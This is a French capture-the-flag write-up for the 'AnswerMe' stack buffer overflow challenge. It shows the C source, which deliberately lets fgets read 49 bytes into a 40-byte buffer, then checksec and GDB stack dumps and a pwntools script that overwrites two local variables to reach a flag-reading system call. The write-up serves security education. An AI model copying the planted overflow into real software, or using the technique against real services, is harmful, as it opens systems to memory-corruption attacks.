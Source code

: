 # AnswerMe

![sisi](sisi.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si c'est exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buffer
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```
